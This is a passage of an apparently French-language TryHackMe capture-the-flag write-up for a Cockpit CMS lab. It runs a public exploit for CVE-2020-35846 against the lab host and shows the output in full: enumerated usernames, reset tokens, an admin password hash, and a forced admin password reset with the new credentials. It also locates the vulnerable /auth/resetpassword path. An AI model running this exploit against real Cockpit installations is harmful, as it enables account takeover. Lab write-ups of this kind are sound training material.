 On recherche un exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python 50185.py -u http://cmspit.thm
[+] http://cmspit.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : admin
[+] Finding Password reset tokens
	 Tokens Found : ['rp-720fcddcb9ed99440217b68e483f1827617ef9dabb31d']
[+] Obtaining user information 
-----------------Details--------------------
	 [*] user : admin
	 [*] name : Admin
	 [*] email : admin@yourdomain.de
	 [*] active : True
	 [*] group : admin
	 [*] password : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
	 [*] i18n : en
	 [*] _created : 1621655201
	 [*] _modified : 1621655201
	 [*] _id : 60a87ea165343539ee000300
	 [*] _reset_token : rp-720fcddcb9ed99440217b68e483f1827617ef9dabb31d
	 [*] md5email : a11eea8bf873a483db461bb169beccec
--------------------------------------------


[+] Do you want to reset the passowrd for admin? (Y/n): 
[-] Attempting to reset admin's password:
[+] Password Updated Succesfully!
[+] The New credentials for admin is: 
 	 Username : admin 
 	 Password : 1.g\'P^%g)
```

On exécute l'exploit il nous montre le nom d'utilisateurs qui est de 4.   
On change le mot de l'admin.   

**What is the path that allows you to change user account passwords?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat 50185.py | grep resetpassword
    url = url + "/auth/resetpassword"
    url = url + "/auth/resetpassword"
```

On regarde dans l'exploit comment il fait.   
Le chemin qui permet de changer le mot de passe est : /auth/resetpassword.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python 50185.py -u http://cmspit.thm
[+] http://cmspit.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : skidy
[+] Finding Password reset tokens
	 Tokens Found : ['rp-3b4c2d717e1d554d6534461ea59a0a7e617efe950f81c']
[+] Obtaining user information 
-----------------Details--------------------
	 [*] user : skidy
	 [*] email : skidy@tryhackme.fakemail
	 [*] active : True
	 [*] group : admin
```